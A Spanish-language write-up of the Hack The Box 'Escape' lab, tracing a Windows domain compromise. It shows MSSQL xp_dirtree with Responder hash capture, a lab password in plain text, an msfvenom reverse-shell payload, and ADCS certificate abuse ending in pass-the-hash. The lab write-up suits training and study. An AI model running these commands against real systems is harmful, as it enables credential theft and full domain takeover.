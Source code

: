# EscapeWriteUp
Writeup de Escape HTB

Empezamos con un escaneo de nmap

~~~
sudo nmap -v -sS -oX vulnerabilidades.xml --stylesheet="https://svn.nmap.org/nmap/docs/nmap.xsl" --script=vuln 10.10.11.202 -Pn -p-
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225091888-805b94d6-57ee-498d-af53-2c3c3c00bea3.png)


Vemos smb en el 445, mssql en el 1433 y winrm en el 5985

Primero que nada entramos de forma anónima a smb 

![imagen](https://user-images.githubusercontent.com/108554878/225092170-f200660f-a15e-40b8-ae23-c93d50935bc2.png)

Vemos varias carpetas

Entremos a public

![imagen](https://user-images.githubusercontent.com/108554878/225092256-ca7e5137-d942-40ca-a97e-8a878a277018.png)

Vemos un pdf

Dentro del pdf encontramos unas credenciales

![imagen](https://user-images.githubusercontent.com/108554878/225092313-54426388-d5f5-476b-a821-4dc22c83dfdf.png)

Con esto nos logueamos en mssql

![imagen](https://user-images.githubusercontent.com/108554878/225092412-f47b7273-20a7-4d2c-80dd-b48e7ecb6589.png)

Estando aqui leemos que se puede hacer en mssql para entrar a la máquina

https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server

Después de intentar varias cosas que vienen en la documentación ponemos

~~~
exec master.dbo.xp_dirtree '\\10.10.14.168\any\thing'
~~~

Seteamos con responder algo que consiga las credenciales NTLMv2

~~~
sudo responder -I tun0 -w 
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225092571-457a1cea-ac33-4e26-84c3-91273dd7b1c1.png)

Ahora crackeamos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225092636-eb65cfa3-2f09-43ec-81e0-e86baa09556c.png)

Encontramos las credenciales y entramos con evilwinrm

![HTB](https://user-images.githubusercontent.com/108554878/225093047-66a8ac6e-ca60-4b73-aa5e-4236317578dd.png)

Entramos con evil-winrm

Vemos que hay un errorlog .BAK

Aquí encontramos las credenciales de Ryan.Cooper

![HTB](https://user-images.githubusercontent.com/108554878/225093457-d8d46db7-36ee-45a0-8b0d-e3299bb386db.png)

Con esto encontramos el user entrando desde evil-winrm

![HTB](https://user-images.githubusercontent.com/108554878/225094140-60254216-ca82-495b-aa7d-885bcf8614ad.png)

Cambio la sesión a meterpreter 

~~~
msfvenom -p windows/meterpreter/reverse_tcp LHOST={IP de mi máquina} LPORT=1232 -f exe > xddd.exe 
~~~

Ejecutamos exploit/multi/handler y ejecutamos el .exe en la máquina

![imagen](https://user-images.githubusercontent.com/108554878/225094868-00bd831a-9d47-4a01-b2ec-85f9fa683d74.png)

Vemos los privilegios que tenemos

Calamos el exploit suggester y winpeas y no se encuentra nada interesante, después leyendo un poco encontré que se puede escalar privilegios con el uso de Active Directory Certificate Services

https://posts.specterops.io/certified-pre-owned-d95910965cd2
https://www.youtube.com/watch?v=ejmAIgxFRgM

Intentamos user certify.exe recomendado para esto, encontramos que es vulnerable

~~~
.\Certify.exe find /vulnerable
~~~

![imagen](https://user-images.githubusercontent.com/108554878/225095523-726d8e18-c2b8-4be6-ba06-48c637752fa4.png)


Al intentar aprovecharnos de esto da un error inesperado así que usamos certipy-ad que funciona también

~~~
certipy-ad find -vulnerable -stdout -u Ryan.Cooper@sequel.htb -p NuclearMosquito3 -dc-ip 10.10.11.202
~~~

También nos encuentra la vulnerabilidad

Obtenemos el certificado .pfx

![imagen](https://user-images.githubusercontent.com/108554878/225095856-1153251a-5586-4bda-b75b-2514ded962a5.png)

Y con esto conseguimos el hash NTLM de la máquina, con esto no necesitamos tocar lsass, ni escalar para conseguirlo

![imagen](https://user-images.githubusercontent.com/108554878/225096019-cd865bf3-b1cc-4c24-b932-4d48fb15fc8d.png)

Nos da un error, investigando es porque tenemos el tiempo desconfigurado

![imagen](https://user-images.githubusercontent.com/108554878/225096143-6cd5d309-6fdb-4678-9dd7-bb721b5c8bd5.png)

Cambiamos el tiempo

Conseguimos el hash

![imagen](https://user-images.githubusercontent.com/108554878/225096267-eba487d6-1b64-4845-8f26-e685b15a76c9.png)


Hacemos un ataque pass-the-hash

![HTB](https://user-images.githubusercontent.com/108554878/225096498-bfd3bfeb-9b47-446e-a2b8-a5d9160bfebe.png)

Y Listo!

